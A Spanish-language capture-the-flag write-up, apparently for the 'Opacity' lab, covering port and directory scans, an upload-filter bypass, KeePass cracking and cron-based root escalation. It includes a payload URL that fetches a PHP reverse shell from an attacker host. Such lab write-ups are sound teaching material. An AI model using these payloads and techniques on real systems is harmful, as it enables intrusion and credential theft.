<div align="center">
    
</div>

<div align="center">

# Opacity <!-- omit in toc -->
<!-- Fácil-#228B06 | Media-#BFA907 | Difícil-#A62100 -->


</div>

<br>

<div align="center">

| | |
|---|---|
| **Tags** | [**CWE-434: Unrestricted Upload of File with Dangerous Type**, **CWE-732: Incorrect Permission Assignment for Critical Resource**] |

</div>

## Índice  <!-- omit in toc -->

- [Escaneos](#escaneos)
- [Investigando servicio web](#investigando-servicio-web)
- [Shell con www-data](#shell-con-www-data)
- [Shell con sysadmin](#shell-con-sysadmin)
- [Shell con root - escalada de privilegios](#shell-con-root---escalada-de-privilegios)


### Escaneos

```shell
nmap -p- --open -sS --min-rate 5000 -Pn -n  10.113.174.215 -oG target.log
```

```log
# Nmap 7.95 scan initiated Fri Nov 13 10:12:54 2026 as: nmap -p- --open -sS --min-rate 5000 -Pn -n -oG target.log 10.113.174.215
Host: 10.113.174.215 ()	Status: Up
Host: 10.113.174.215 ()	Ports: 22/open/tcp//ssh///, 80/open/tcp//http///, 139/open/tcp//netbios-ssn///, 445/open/tcp//microsoft-ds///
# Nmap done at Fri Nov 13 10:13:12 2026 -- 1 IP address (1 host up) scanned in 17.20 seconds
```

```shell
nmap -p22,80,139,445 -sV -sC  10.113.174.215 -oN openPorts.log
```

```log
# Nmap 7.95 scan initiated Fri Nov 13 10:13:50 2026 as: nmap -p22,80,139,445 -sV -sC -oN openPorts.log 10.113.174.215
Nmap scan report for opacity.thm (10.113.174.215)
Host is up (0.26s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 74:72:6e:08:73:20:d1:43:8a:f3:dd:68:0d:aa:e2:4d (RSA)
|   256 18:41:34:58:dc:dc:2b:0f:f1:56:6f:e0:e3:fc:7e:52 (ECDSA)
|_  256 6a:43:9e:e6:03:70:fc:31:09:91:7c:1c:1e:f0:90:f7 (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Login
|_Requested resource was login.php
139/tcp open  netbios-ssn Samba smbd 4
445/tcp open  netbios-ssn Samba smbd 4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: , NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-11-13T09:14:03
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Nov 13 10:14:07 2026 -- 1 IP address (1 host up) scanned in 16.47 seconds
```

<br>

### Investigando servicio web

Una vez ingresamos al sitio web encontraremos un formulario de acceso (login) para el cual no conocemos alguna credencial, si aplicamos un escaneo de rutas sobre esta URL encontraremos una ruta adicional `/cloud/`.

```
❯ ffuf -u 'http://opacity.thm/FUZZ' -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 -ic

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://opacity.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 261ms]
css                     [Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 78ms]
cloud                   [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 135ms]
```

<br><br>

<div align="center">
    
    <br>
    <em>Página de inicio con formulario de acceso (login)</em>
    <br><br>
    
    <br>
    <em>Ruta '/cloud/'</em>
</div>

<br>

> [!TIP]
> Se pueden generar imágenes con el comando `convert` del paquete APT `imagemagick`

<br><br>

Como podemos ver en este campo, es un `type='text'` lo cual nos indica que no debemos cargar con el explorador de archivos sino una URL. Sin embargo decido hacer una prueba de concepto y tomar una idea de lo que se gestiona de forma interna, preparo una imagen simple en un 'Simple Server' de `Python` en mi máquina atacante y hago la solicitud desde la web.

<div align="center">
    
    <br>
    <em>Campo de tipo texto para URL</em>
    <br><br>
    
    <br>
    <em>Prueba de concepto (PoC) de imagen autogenerada</em>
    <br><br>
    
    <br>
    <em>Solicitud del servidor en máquina objetivo a servidor máquina atacante</em>
</div>

<br><br>

### Shell con www-data

Ha descargado la imagen que he dejado en mi servidor. Entonces podríamos aprovecharnos de esto para subir un archivo malicioso con una Shell Reverse, en mi caso la he tomado desde `/usr/share/webshells/php/php-reverse-shell.php` disponible en SO como Kali o Parrot-OS, también la pueden descargar desde [PentestMonkey Github](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). En la solicitud tendremos que alterar la URL, siempre debe terminar con un formato de imagen (png, jpg, jpeg) y truncarlo justo antes con un nullbyte:

> [!NOTE]
> Payload: `http://ip-atacante:[PORT]/shell.php#00.png`

<br>

<div align="center">
    
    <br>
    <em>Solicitud hecha - Frontend</em>
    <br><br>
    
    <br>
    <em>Recibiendo la Shell Reverse</em>
</div>

<br><br>

Una vez dentro listamos usuarios.

```
www-data@ip-10-113-174-215:/$ grep -i '/bin/.*sh' /etc/passwd
root:x:0:0:root:/root:/bin/bash
sysadmin:x:1000:1000:sysadmin:/home/sysadmin:/bin/bash
ubuntu:x:1001:1002:Ubuntu:/home/ubuntu:/bin/bash
```
<br><br>

Tras buscar un poco por el sistema, podemos ver que en el directorio del usuario **sysadmin** está casi todo con permisos bloqueados para '**_otros_**'. Pero en el directorio `/opt` encontraremos un archivo llamado `dataset.kdbx` que es un archivo de tipo "**Keepass password database**", nos traemos este archivo a nuestra máquina atacante y lo crackeamos con `keepass2john` y `john`, luego abrimos la DDBB con `keepass2` y podremos obtener la contraseña del usuario **sysadmin**

<div align="center">
    
    <br>
    <em>Descargamos el archivo '.kdbx'</em>
    <br><br>
    
    <br>
    <em>Crackeamos con 'keepass2john'</em>
    <br><br>
    
    <br>
    <em>Abrimos con 'keepass2' y obtenemos la clave de 'sysadmin'</em>
</div>

<br><br>

### Shell con sysadmin

Entramos por el puerto 22 - servicio SSH como **sysadmin** y encontramos el primer flag 'local.txt'

<div align="center">
    
    <br>
    <em>Primer flag 'local.txt'</em>
</div>

<br><br>

### Shell con root - escalada de privilegios

En el directorio `$HOME` de **sysadmin** hay un directorio llamado `/scripts` el cual contiene un archivo `script.php` que se está ejecuando cada cierto tiempo en un `cronjob` como **root**. El vector de ataque inicia cuando NO podemos modificar nada en el directorio `/scripts` ya que pertenece todo a **root** PERO el directorio que contiene `/scripts` es el directorio `$HOME` de **sysadmin** así que podemos simplemente reemplazar este directorio por uno que pertenezca a **sysadmin**, de igual forma con el archivo `scripts.php`. En este caso particular simplemente traeremos el mismo script que usamos para ganar la Shell Reverse con **www-data**

<div align="center">
    
    <br>
    <em>Resultado de 'pspy64'</em>
    <br><br>
    
    <br>
    <em>Permisos de directorios</em>
    <br><br>
</div>

Cargamos el script y esperamos que se ejecute.

<div align="center">
    
    <br>
    <em>Shell Reverse y flag 'proof.txt'</em>
</div>

<br><br>

---

<div align="center">

**HellHound DevSecOps**<br>
*Ciberseguridad, Análisis de Sistemas & Reports*

[](https://github.com/xhellhoundx/)
[](https://www.youtube.com/@H3llH0undDSO)
[](https://x.com/hellhoundso)

</div>